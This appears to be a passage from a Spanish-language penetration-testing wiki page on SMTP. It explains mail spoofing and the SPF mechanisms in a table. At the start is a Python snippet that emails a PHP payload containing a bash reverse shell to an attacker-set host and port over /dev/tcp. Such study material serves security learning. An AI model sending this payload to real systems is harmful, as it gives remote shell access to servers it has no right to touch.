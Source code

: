 ```
# payload 
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
    print("[-]Connection Error")
    exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```

## MAIL SPOOFING

{% hint style="info" %}
La mayor parte de esta sección ha sido extraída del libro **Network Security Assessment 3rd Edition**.
{% endhint %}

Los mensajes SMTP son fácilmente spoofeables. Es por eso que las organizaciones utilizan SPF, DKIM y DMARC para prevenir el envío de correos no autorizados.

{% embed url="https://seanthegeek.net/459/demystifying-dmarc" %}
Fuente
{% endembed %}

### SPF

**Sender Policcy Framework** a facilita un mecanismo que permite a los Agentes de Transferencia de Correo (MTA) comprobar si un host enviando un correo era autorizado o no.

Las organizaciones pueden definir una lista de servidores de correo autorizados y los MTAs pueden realizar búsquedas en dicha lista para saber si un email era spoof.

Para definir los rangos de IP, dominios y otras estructuras que están autorizados a enviar correo, existen diferentes mecanismos que pueden aparecer en el registro SPF:

#### Mecanismos

| Mecanismo | Descripción                                                                                                                                                                                                                                                                                                                                              |
| --------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ALL       | Coincide siempre; utilizado para un resultado por defecto tal como "ALL" para todas las IPs que no coincidan con mecanismos anteriores.                                                                                                                                                                                                                  |
| A         | Si el nombre de dominio tiene un [**registro**](https://app.gitbook.com/s/-MhVrQh4lqWrSljwKpje/seguridad-linux/untitled-2#tipos-de-registros) (A o AAAA) que puede ser resuelto en la dirección remitente, Coincidirá                                                                                                                                    |
| IP4       | Si el remitente se encuentra en un rango IPv4 dado. Coincide                                                                                                                                                                                                                                                                                             |
| IP6       | Si el remitente se encuentra en un rango IPv4 dado. Coincide.                                                                                                                                                                                                                                                                                            |
| MX        | Si el nombre de dominio tiene un [**registro MX**](https://app.gitbook.com/s/-MhVrQh4lqWrSljwKpje/seguridad-linux/untitled-2#tipos-de-registros) que resuelve la dirección del remitente. Coincide . (P.E. el mail viene de uno de los servidores de recepción de correo del mismo dominio.)                                                             |
| PTR       | Si el nombre de dominio ([**registro PTR**](https://app.gitbook.com/s/-MhVrQh4lqWrSljwKpje/seguridad-linux/untitled-2#tipos-de-registros)) de la dirección remitente está en el dominio dado y l nombre de dominio resuelve a la dirección remitente (forward-confirmed reverse DNS). Coincide. Este mecanismo debe evitarse por problemas de seguridad. |
| EXISTS    | Si el nombre de dominio dado resuelve a alguna dirección. Coincide (da igual qué dirección). Se usa poco. Junto con SPF macro, puede ofrecer coincidencias más complejas.                                                                                                                                                                                |
| INCLUDE   | Referencia una política de otro dominio. Si esa política coincide, el mecanismo coincide. Sin embargo, si la política no coincide, el procesamiento continua. Para delegar completamente en la política de otro dominio, se debe utilizar el siguiente mecanismo (redirección).                                                                          |